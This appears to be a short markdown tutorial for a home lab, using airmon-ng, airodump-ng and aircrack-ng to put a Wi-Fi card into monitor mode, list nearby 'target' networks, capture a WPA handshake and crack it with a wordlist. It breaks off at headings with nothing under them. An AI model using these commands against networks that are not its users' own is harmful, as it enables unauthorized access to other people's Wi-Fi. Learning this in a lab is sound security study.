




### Wireless Hacking Process (Home Lab)

1. check connection wifi card

```bash
iwconfig
```
 - iwconfig is a Linux command used to configure a wireless network interface. In this context, it's used to check if the Wi-Fi card is connected and in what mode


2. Check if airmon-ng process exists and kill it if it does

```bash
airmon-ng check kill
```
- airmon-ng is a tool used to put the wireless interface into monitor mode. Before starting a new session, it's a good practice to ensure there are no existing airmon-ng processes running. 

3. Start airmon-ng in monitor mode on wlan0

```bash
airmon-ng start wlan0
```



- puts the wireless interface wlan0 into monitor mode, allowing it to capture all wireless frames, not just those intended for it. This is necessary for sniffing and attacking Wi-Fi networks.

1. check wlan0mon (monitor mode: activated)

```bash
iwconfig
```

- confirms that the interface is in monitor mode



5. Check for target networks to attack

```bash
airodump-ng wlan0
```



- monitor and capture packets on the wlan0mon interface. It displays a list of nearby wireless networks (targets), along with their BSSIDs (MAC addresses), channels, encryption types, and signal strengths.

6. Gain handshake for target network

```bash
airodump-ng -c <channel_router> --bssid <bssid_router> -w capture wlan0
```



- captures packets on the specified channel (<channel_router>) for the target network with the given BSSID (<bssid_router>). The -w capture option specifies the output file name (capture.cap in this case).

7. crack password pakai wodlist

```bash
aircrack-ng -w wordlist.txt -b <bssid_router> <file.cap>
```
#### Best Wordlist


- attempts to crack the password using the provided wordlist (wordlist.txt) and the target BSSID

### Deauthentication Attack

